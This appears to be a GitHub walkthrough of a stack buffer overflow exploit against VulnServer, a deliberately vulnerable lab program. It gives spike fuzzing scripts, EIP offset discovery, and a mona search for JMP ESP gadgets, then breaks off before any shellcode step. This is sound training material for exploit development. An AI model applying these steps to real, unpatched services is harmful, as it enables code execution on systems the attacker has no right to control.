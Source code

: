 # VulnServer - Buffer Overflow Walkthrough

## Steps

1. Spiking - finding vulnerable part/command of the program
2. Fuzzing - fuzzing with multiple characters to see if you can break it
3. Finding the Offset - see at what point it breaks
4. Overwriting the EIP - use the offset to overwrite the EIP (return address)
5. Finding Bad Characters
6. Finding the Right Module
7. Generating Shellcode
8. Root

### Spiking

- Connect to VulnServer with netcat `nc`.
- `nc 192.168.10.7 9999 -v` and run `HELP` command. It will list all the commands available to run.
- ```
    Valid Commands:
    HELP
    STATS [stat_value]
    RTIME [rtime_value]
    LTIME [ltime_value]
    SRUN [srun_value]
    TRUN [trun_value]
    GMON [gmon_value]
    GDOG [gdog_value]
    KSTET [kstet_value]
    GTER [gter_value]
    HTER [hter_value]
    LTER [lter_value]
    KSTAN [lstan_value]
    EXIT
  ```
- Run `stats.spk` to fuzz and see if `STATS` command is vulnerable.
- - `s_readline();` will read the banner we get on connecting to VulnServer with netcat.

  ```
  s_readline();
  s_string("STATS ");
  s_string_variable("0");
  ```

- `generic_send_tcp 192.168.10.7 9999 stats.spk 0 0`
- Nothing happens even if we let it run for a few mins. `STATS` command is probably not vulnerable.
- Run `trun.spk` spike script to see if `TRUN` command is vulnerable.

  ```
  s_readline();
  s_string("TRUN ");
  s_string_variable("0");
  ```

- `generic_send_tcp 192.168.10.7 9999 trun.spk 0 0`
- VulnServer crashes inside the Immunity Debugger. `TRUN` command looks vulnerable.

### Fuzzing

- Write `fuzz.py` python script to fuzz.
- `chmod +x fuzz.py` to make it executable.
- Run `fuzz.py` to fuzz `TRUN` with payload: `TRUN /.:/`.
- See at how many bytes the VulnServer crashes inside Immunity Debugger.
- Stop the fuzz script and note the number of bytes.

### Finding the Offset

- After stopping the fuzz script, it shows VulnServer crashed at around 2500 bytes.
- Use `pattern_create.rb` to create a pattern that we can send to VulnServer as a payload.
- `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500`
- Copy that pattern text and paste it inside the `offset.py` script as `offset` variable which will be a long string of these 2500 characters pattern.
- `chmod +x offset.py` to make it executable.
- Run the `offset.py` script. VulnServer will crash inside the Immunity Debugger.
- Note the value of EIP as we will need it to find the offset. EIP => `386F4337`.
- `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500 -q 386F4337`
- Running this will give us the pattern offset => `Exact match at offset 2003`.
- So the offset is at 2003 bytes and the EIP itself is 4 bytes long. And we need to overwrite these 4 bytes on EIP.

### Overwriting the EIP

- Note: hex value of A = 41; B = 42.
- We need to figure out at what point we start overwriting the EIP.
- Check `shellcode.py`. We know that the offset is 2003 bytes. So we will send 2003 'A's (`"A" * 2003`) which will fill up the buffer space. And we know that EIP is 4 bytes. So we will send 4 'B's (`"B" * 4`) after 2003 'A's.
- `chmod +x shellcode.py` to make it executable.
- Run `shellcode.py` script and check the EIP value.
- We see 41414141 ('A's) in EBP which comes before EIP in the stack.
- And we have 42424242 ('B's) in EIP which means we are overwriting EIP at that point. We sent only 4 bytes of 'B's and they are all on EIP. Which means we control the EIP now.

### Finding Bad Characters

- Copy badchars variable from [here: ins1gn1a](https://www.ins1gn1a.com/identifying-bad-characters/) and paste it in the `badchars.py` file.
- Note: `x00` (null byte) is a known bad character so has been removed from the list.
- `chmod +x badchars.py` to make it executable.
- Run `badchars.py` script and VulnServer will crash inside the Immunity Debugger.
- Inside Immunity Debugger, in Registers pane, right click on ESP value and select **Follow in Dump** option.
- Now in Hex Dump pane, start looking for anything that is out of order.

### Finding the Right Module

- In this step, we will be looking for DLLs or anything without any memory protections like Rebase, SafeSEH, ASLR, etc.
- Copy the `mona.py` file to `PyCommands` directory in `C:\Program Files (x86)\Immunity Inc\Immunity Debugger`.
- Reopen Immunity Debugger, open VulnServer inside and run. Then in the command section at the bottom, type `!mona modules` and hit enter.
- We are looking for something that is attached to VulnServer itself and has `False` on all the memory protections. So this one seems to be it:
  ```
  Log data, item 15
  Address=0BADF00D
  Message= 0x62500000 | 0x62508000 | 0x00008000 | False  | False   | False |  False   | False  | -1.0- [essfunc.dll] (E:\BOF\vulnserver\essfunc.dll)
  ```
- We need op code equivalent of JMP (jump code in assembly). Basically we are trying to convert assembly language into hex code.
- `locate nasm_shell`
- `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb`
- `JMP ESP` and press enter to get hex code for `JMP ESP` => `00000000 FFE4`
- The hex code equivalent of assembly `JMP ESP` is `FFE4`.
- Now in the Immunity Debugger command bar:
  `!mona find -s "\xff\xe4" -m essfunc.dll` and press enter.

  ```
  Command used:
  !mona find -s "\xff\xe4" -m essfunc.dll

  Results :
  0x625011af : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (E:\BOF\vulnserver\essfunc.dll)
  0x625011bb : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (E:\BOF\vulnserver\essfunc.dll)
  0x625011c7 : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (E:\BOF\vulnserver\essfunc.dll)
  0x625011d3 : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (E:\BOF\vulnserver\essfunc.dll)
  0x625011df : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (E:\BOF\vulnserver\essfunc.dll)
  0x625011eb : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (E:\BOF\vulnserver\essfunc.dll)
  0x625011f7 : "\xff\xe4" |  {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (E:\BOF\vulnserver\essfunc.dll)
  0x62501203 : "\xff\xe4" | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (E:\BOF\vulnserver\essfunc.dll)
  0x62501205 : "\xff\xe4" | ascii {PAGE_EXECUTE_READ} [essfunc.dll] ASLR: False, Rebase: False, SafeSEH: False, OS: False, v-1.0- (E:\BOF\vulnserver\essfunc.dll)
  Found a total of 9 pointers
  ```

-
